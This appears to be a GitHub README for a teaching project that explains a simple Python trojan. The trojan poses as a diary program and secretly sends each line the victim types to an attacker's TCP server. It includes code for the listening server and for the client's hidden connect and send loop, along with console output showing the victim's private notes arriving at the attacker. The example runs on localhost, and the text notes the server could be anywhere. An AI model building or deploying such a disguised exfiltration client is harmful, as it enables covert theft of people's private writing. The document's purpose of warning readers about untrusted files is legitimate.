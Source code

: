 # Trojan

Our **trojan** is implemented in the file `trojan.py`. It tries to collect data from the victim disquised as a common diary and send them secretly to the server of the attacker. The server is implemented in the file `server.py`. We should be able to see all notes written into the diary without any knowledge of the victim. 

#### Demonstration of behavior

The first thing that the attacker must do is to set a server that collects data sent by the victim. That's why we setup a running server on our computer by running `./server.py`. You should see the following text:
```
DEBUG:user:Server was successfully initialized.
```
In the second console run the **trojan** (diary) as the victim with the command `./trojan.py`. On the attacker's console we should immediately see the following text: 
```
Connection with trojan established from ('127.0.0.1', 46682)
```
That means that our client has made a successful connection to our server. Type a few lines of notes into the diary. We can observe that all notes are being shown to the attacker as well.

##### What does the victim see
```
Hello, this is your diary. You can type here your notes:
Hello diary,
let me tell you a secret.
...
```
##### What does the attacker see
```
DEBUG:user:Server was successfully initialized.
Connection with trojan established from ('127.0.0.1', 46682)
INFO:user:b'Hello diary,\n'
INFO:user:b'let me tell you a secret.\n'
...
```

Creation of basic **trojan** is very simple process as it is described below and anyone can do it just with the basic knowledge of programming and understandment of operating systems. That's why we should be always cautious when we execute any uncommon or not trusted file.

#### How does it work?

##### Server

- Firstly, we create our **server** that should collect the data obtained from **trojan** executed 
  by the victim. The server will listen on the specific port that must be the same as is specified in our **trojan**.
  In this example will be both the **server** and **trojan** executed on the same computer, but the
  **server** might be remote and located anywhere in the world.
  ```python
  server = Server(27000)
  ```
  The communication is realized via **TCP** protocol specified by `socket.SOCK_STREAM` (To learn more about network protocols see [the guide to network communication](https://support.holmsecurity.com/hc/en-us/articles/212963869-What-is-the-difference-between-TCP-and-UDP-). <br>
  ```python
  self._socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  ```
  
- Then we must initialize the server by binding it to the specified port.
  ```python
  server.initialize()
  ```
- The most important part is the connection with the victim. This is implemented in the function _collect_data_ provided by the **server**. It waits for the connection initiated by the **trojan** after its execution on the victim's system. After that it just constantly checks whether the client has sent any data. If so, they are logged into the console so that the attacker can see them. If the sent data are "empty", the client has closed the connection.
  ```python
  while True:
      data = connection.recv(1024)
      if not data:
          break
      logging.debug(data)
  ``` 

##### Trojan (client)

- Firstly, we must create our **trojan**. The service requires a name of the host (server) and the
  specified port for the communication. Host named `localhost` means that the server is listening on the same
  system as our client.
  ```python
  trojan = Trojan('localhost', 27000)
  ```
- Now we try to connect to the server. This connection should remain hidden to the victim. The logging
  message is presented just so we can spot any errors in our example.
  ```python
  try:
      self.socket.connect((self.host, self.port))
  except socket.error:
      logging.debug('Trojan could not connect to the server.')
      return
  ```
  
 - Then the **trojan** tries to act like a harmless program by greeting the victim. 
   ```python
   print('Hello, this is your diary. You can type your notes here:')
   ```
-  As the victim types his or her notes into the diary (`stdin`), each line is sent to the **attacker's server**. We expect the data to be encoded as **UTF-8** and because the communication interface expects _binary_ data, we must transform the obtained _strings_ into _bytes_.
   ```python
   while True:
       character = sys.stdin.read(1)
       self.socket.send(bytes(character, 'utf-8'))
   ```
